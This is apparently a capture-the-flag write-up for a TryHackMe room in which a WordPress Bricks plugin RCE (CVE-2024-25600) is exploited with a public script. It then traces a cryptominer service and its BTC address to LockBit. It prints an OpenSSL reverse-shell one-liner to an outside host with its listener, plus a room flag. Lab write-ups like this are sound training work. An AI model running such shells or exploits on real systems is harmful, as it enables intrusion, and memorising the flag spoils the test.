





# TryHack3M: Bricks Heist<!-- omit in toc -->

---

Machine by [tryhackme](https://tryhackme.com/p/tryhackme)

Tryhackme [link](https://tryhackme.com/r/room/tryhack3mbricksheist)

---

## Table of Content<!-- omit in toc -->

- [1. NMAP scan](#1-nmap-scan)
- [2. dirb](#2-dirb)
- [3. wpscan](#3-wpscan)
- [4. Exploit preparation](#4-exploit-preparation)
- [5. First flag](#5-first-flag)
- [6. Reverse Shell](#6-reverse-shell)
- [7. Service analysis](#7-service-analysis)
- [8. BTC address](#8-btc-address)
- [9. BTC address owner](#9-btc-address-owner)

---

## Tools Used:<!-- omit in toc -->

- Kali Linux
- NMAP

---

### 1. NMAP scan

Using `nmap -sV -p-5000 IP` we will enumerate all the first 5000 active ports and grab all the service banners.

Visiting the http website we can see that there is an error 405, wich means the url we are trying to access is blocked.

Since there is a 443 port listening i've tried to visit the https site, this is what we can see, nothing special on the source code and not telling us much:

### 2. dirb

Since we can access the website with https, using dirb tells us there is a wordpress installation because of the `wp-admin` url:

### 3. wpscan

Using wpscan we can see that there are three vulnerabilities, one of them is an cross-site scripting, and two Remote code execution:

### 4. Exploit preparation

After looking for the RCE vulnerability i've found this [github](https://github.com/Chocapikk/CVE-2024-25600), we'll clone it:

Install the requirements with pip:

 

And execute with `python3 exploit.py --url https://bricks.thm/`

 

### 5. First flag

Once inside we can see we're inside the `/data/www/default` directory, inside there's the first flag `THM{fl46_650c844110baced87e1606453b93f22a}`

 

I've tried to get the root db password by listing the contents of `wp-config.php`, but the password field is protected by the `lamp.sh` script

 

### 6. Reverse Shell

For comodity i'll get a reverse shell running with open-ssl:

` mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.0.0.1:4242 > /tmp/s; rm /tmp/s`

The listener was:
`ncat --ssl -vv -l -p 4242`

### 7. Service analysis

We can list the running proceses with `systemctl --type=service --state=running` and `ubuntu.service` looks quite suspicious:

 

With `systemctl cat ubuntu.service` we can see asociated info with the service, the task that's being called is `nm-inet-dialog` wich is the name of the process.

 

If we list the contents of the parent's folder of the process there is only one file with read permissions `inet.conf`:

 

### 8. BTC address

As we can see we've found the process that's related to the miner, now we need to figure out the crypto address:

 

With [dencode.com](https://dencode.com/string) we'll decode the string three times:

The first conversión is to Hex:

 

Then to Base64:

 

And again Base64:

The string is repeated and if we cut it in half we get the BTC address: `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`

With [dencode.com](https://dencode.com/string)

### 9. BTC address owner

First we'll lookup the address on [blockchain.com](https://www.blockchain.com/explorer/addresses/btc/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa)

The first transaction was from `bc1q5jqgm7nvrhaw2rh2vk0dk8e4gg5g373g0vz07r`

 

Afeter a google search we can see the next article:

 

And the address is related to `LockBit`:

